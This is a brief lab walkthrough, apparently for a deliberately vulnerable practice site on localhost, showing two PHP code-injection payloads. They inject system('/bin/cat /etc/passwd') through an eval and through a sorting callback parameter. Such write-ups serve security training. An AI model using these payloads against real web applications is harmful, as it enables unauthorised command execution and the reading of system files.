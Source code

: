 # Code Injection

## 1

In this example, the input is simply wrapped inside an `eval` call.

`http://localhost:31337/codeexec/example1.php?name=%22.system%28%22/bin/cat%20/etc/passwd%22%29.%22`

## 2

This gets a little more complex, as we have to manipulate a callback to include the string command we want as an argument.

`http://localhost:31337/codeexec/example2.php?order=name, system('/bin/cat%20/etc/passwd')`
